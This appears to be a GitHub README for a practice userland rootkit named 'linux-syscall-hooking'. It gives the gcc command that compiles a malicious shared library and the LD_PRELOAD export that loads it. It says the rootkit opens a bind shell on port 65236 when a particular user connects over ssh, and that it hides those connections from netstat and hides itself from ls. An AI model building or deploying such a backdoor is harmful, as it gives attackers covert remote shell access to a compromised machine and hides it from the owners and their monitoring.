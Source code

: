 # linux-syscall-hooking
this is a userland rootkit that uses LD_PRELOAD to hook syscall functions. 

this is one of my practice to learn C. 

first you need to compile it with the following command using gcc.

```
linux# gcc mallib.c -fPIC -shared -D_GNU_SOURCE -o mallib.so -ldl 
```
then add its address to LD_PRELOAD enviroment variable.
```
linux# export LD_PRELOAD=$(pwd)/mallib.so 
```
## how it works:
when you ssh with user ```whatsupali``` to infected host it opens a bind shell on port 65236 and hides connections to this port from netstat. it also hides it self from ```ls``` command. 
